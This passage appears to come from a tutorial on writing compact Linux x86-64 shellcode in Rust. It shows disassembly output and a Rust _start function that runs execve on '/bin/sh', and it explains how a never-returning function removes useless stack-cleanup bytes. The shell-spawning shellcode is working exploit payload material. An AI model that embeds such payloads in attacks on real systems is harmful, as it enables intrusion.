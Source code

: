 
```bash
$ make dump_shell
Disassembly of section .data:

00000000 <.data>:
   0:   48 83 ec 20             sub    rsp,0x20
   4:   48 8d 3d 27 00 00 00    lea    rdi,[rip+0x27]        # 0x32
   b:   48 89 e0                mov    rax,rsp
   e:   48 89 38                mov    QWORD PTR [rax],rdi
  11:   48 8d 74 24 10          lea    rsi,[rsp+0x10]
  16:   48 89 06                mov    QWORD PTR [rsi],rax
  19:   48 83 66 08 00          and    QWORD PTR [rsi+0x8],0x0
  1e:   48 c7 40 08 08 00 00    mov    QWORD PTR [rax+0x8],0x8
  25:   00
  26:   6a 3b                   push   0x3b
  28:   58                      pop    rax
  29:   31 d2                   xor    edx,edx
  2b:   0f 05                   syscall
  2d:   48 83 c4 20             add    rsp,0x20
  31:   c3                      ret
  32:   2f                      (bad)
  33:   62                      (bad)
  34:   69                      .byte 0x69
  35:   6e                      outs   dx,BYTE PTR ds:[rsi]
  36:   2f                      (bad)
  37:   73 68                   jae    0xa1
  39:   00                      .byte 0x0
```

That's better, but still not perfect! Look at offset `2d`: the compiler is cleaning the stack as a normal function would do. But we are creating a shellcode. Those 4 bytes are useless!

This is where the never type comes into play:
```rust
#[no_mangle]
fn _start() -> ! {
    let shell: &str = "/bin/sh\x00";
    let argv: [*const &str; 2] = [&shell, core::ptr::null()];

    unsafe {
        syscall3(SYS_EXECVE, shell.as_ptr() as usize, argv.as_ptr() as usize, NULL_ENV);
    };

    loop {}
}
```


```bash
$ make dump_shell
Disassembly of section .data:

00000000 <.data>:
   0:   48 83 ec 20             sub    rsp,0x20
   4:   48 8d 3d 24 00 00 00    lea    rdi,[rip+0x24]        # 0x2f
   b:   48 89 e0                mov    rax,rsp
   e:   48 89 38                mov    QWORD PTR [rax],rdi
  11:   48 8d 74 24 10          lea    rsi,[rsp+0x10]
  16:   48 89 06                mov    QWORD PTR [rsi],rax
  19:   48 83 66 08 00          and    QWORD PTR [rsi+0x8],0x0
  1e:   48 c7 40 08 08 00 00    mov    QWORD PTR [rax+0x8],0x8
  25:   00
  26:   6a 3b                   push   0x3b
  28:   58                      pop    rax
  29:   31 d2                   xor    edx,edx
  2b:   0f 05                   syscall
```